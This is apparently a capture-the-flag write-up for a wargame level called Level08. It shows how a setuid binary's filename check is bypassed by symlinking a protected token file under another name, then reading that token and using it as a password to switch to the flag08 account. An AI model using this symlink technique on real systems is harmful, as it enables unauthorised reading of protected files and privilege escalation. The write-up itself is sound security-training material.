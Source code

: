 # Level08 Solution

## Steps:
1. Connected via SSH: `ssh level08@192.168.16.128 -p 4242`
2. Found a setuid binary named `level08` and a token file `token` in the home directory.
   - The binary `level08` is owned by `flag08`.
   - The file `token` is readable only by `level08`.
3. Analyzed the binary:
   - It opens the file passed as the first argument and prints its content.
   - However, it checks if the filename contains "token" and denies access if it does.
4. Bypassed the restriction using a symbolic link:
   - Created a symbolic link to `token` with a different name:
     ```bash
     ln -s /home/user/level08/token /tmp/fake
     ```
5. Ran the binary with the symbolic link:
   - Command: `./level08 /tmp/fake`
   - Output: `25749xKZ8L7DkSCwJkT9dyv6f`
6. Used the token to log in as `flag08`:
   - Command: `su flag08`
   - Password: `25749xKZ8L7DkSCwJkT9dyv6f`
7. Ran `getflag` to get the token for the next level:
   - Token: [output of getflag]

## Notes:
- The binary checks for the string "token" in the filename, so we cannot directly pass `token` as an argument.
- By creating a symbolic link with a different name, we bypass the filename check.
- The binary then reads the content of the token file through the symlink.

## Tools used:
- `ln` (to create symbolic links)
- Symbolic link exploitation

## Vulnerability:
- Insecure file access control based solely on the filename string.
